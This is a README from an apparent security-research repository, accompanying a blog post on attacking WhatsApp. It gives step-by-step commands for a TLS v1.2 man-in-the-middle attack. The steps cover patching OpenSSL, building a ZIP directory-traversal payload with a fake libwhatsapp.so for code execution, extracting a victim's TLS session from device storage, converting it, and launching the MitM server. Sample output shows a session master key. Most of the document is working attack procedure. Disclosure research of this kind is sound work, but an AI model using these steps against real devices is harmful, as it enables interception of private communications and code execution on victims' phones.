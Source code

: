 # TLS v1.2 MitM and code execution toolset for WhatsApp

This directory contains the tooling required for performing TLS v1.2 MitM against
WhatsApp and exploiting the ZIP directory traversal vulnerability analyzed in
our blog post.


## Preparation

In the following we assume environment variable `$POC` points to the root
directory of this repository.

Download OpenSSL 1.1.1f source code, apply TLS v1.2 MitM patch and compile:

    cd /tmp
    curl -O https://ftp.openssl.org/source/old/1.1.1/openssl-1.1.1f.tar.gz
    tar -zxvf openssl-1.1.1f.tar.gz
    mv openssl-1.1.1f openssl-1.1.1f-tls12
    cd openssl-1.1.1f-tls12
    patch -p1 < $POC/openssl-1.1.1f-patches/tls12-mitm.patch
    ./config -d no-shared
    make -j8

Compile BoringSSL (commit **2e5f38a1d871305ffeb0c932d421b01fd43a4168**):

    cd /tmp
    git clone https://boringssl.googlesource.com/boringssl
    cd boringssl
    git checkout 2e5f38a1d871305ffeb0c932d421b01fd43a4168
    mkdir build
    cd build
    cmake ..
    make -j8

Generate server certificate and keys for MitM:

    cd $POC/secrets
    ./gen_certs.sh

Now, build the ZIP payload. To do that you also need to specify the path to an
Android Aarch64 cross-compiler toolchain, that will be used to build our fake
**libwhatsapp.so**:

    cd $POC/tls12_psk_extract/payload
    export CROSS_COMPILE=/opt/android-ndk/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android28-
    make
    ./create_zip.sh
    cd ..
    mv payload/payload.zip .

Prepare environment variables:

    export OPENSSL_SRC=/tmp/openssl-1.1.1f-tls12
    export BORINGSSL_SRC=/tmp/boringssl
    export SECRETS=$POC/secrets

Your current directory should now be `$POC/tls12_psk_extract`.

As a final step we need to build **openssl_session.c** and **boringssl_session.c**.
To do that, just type:

    make

Prior to that, however, you might need to tweak **Makefile** a bit.


## Usage

Let's assume a serialized session to **crashlogs.whatsapp.net** was successfully
extracted from the victim's external storage. We can simulate this scenario by
pulling the following file directly from the target device:

    adb pull /sdcard/Android/data/com.whatsapp/cache/SSLSessionCache/crashlogs.whatsapp.net.443

Next step involves converting the session from BoringSSL DER format to OpenSSL
DER format, so that it can be used by OpenSSL's `s_server`.

    $ ./convert_session.sh crashlogs.whatsapp.net.443
    Set SSL version 771
    Set session id 769bc576393a14450303738d6c81e23489252ba59191f09705d6bb4c6fc6168f
    Set master key 4f562b2c813b429e35cdd08574184d9a6a83d6b2d1c786521c2e49f9a28e6e996a4cf171225e353f60fb71a10d6ff8e8
    Set cipher ECDHE-ECDSA-AES128-GCM-SHA256, id 50380843
    SSL-Session:
        Protocol  : TLSv1.2
        Cipher    : ECDHE-ECDSA-AES128-GCM-SHA256
        Session-ID: 769BC576393A14450303738D6C81E23489252BA59191F09705D6BB4C6FC6168F
        Session-ID-ctx:
        Master-Key: 4F562B2C813B429E35CDD08574184D9A6A83D6B2D1C786521C2E49F9A28E6E996A4CF171225E353F60FB71A10D6FF8E8
        PSK identity: None
        PSK identity hint: None
        SRP username: None
        Start Time: 1611759604
        Timeout   : 304 (sec)
        Verify return code: 0 (ok)
        Extended master secret: yes
    -----BEGIN SSL SESSION PARAMETERS-----
    MHYCAQECAgMDBALAKwQgdpvFdjk6FEUDA3ONbIHiNIklK6WRkfCXBda7TG/GFo8E
    ME9WKyyBO0KeNc3QhXQYTZpqg9ay0ceGUhwuSfmijm6ZakzxcSJeNT9g+3GhDW/4
    6KEGAgRgEX/0ogQCAgEwpAIEAK0DAgEB
    -----END SSL SESSION PARAMETERS-----

The resulting DER file, **session.der**, can be found in the current directory.

Last but not least, run the following script to start the MitM server:

    ./run_server.sh


## Bonus

**openssl\_http\_pipe.py** can be used for spawning an OpenSSL `s_server`
instance and creating a bidirectional pipe with the latter's standard input and
output. This, in turn, allows one to manually parse incoming HTTP requests and
implement custom HTTP logic in Python, using standard built-in classes like
`BaseHTTPRequestHandler`. In fact, this script was used for setting up the Noise
keys extraction demo, presented in our blog post. People wishing to experiment
with their own MitM infrastructure can modify this script to implement their own
callbacks.

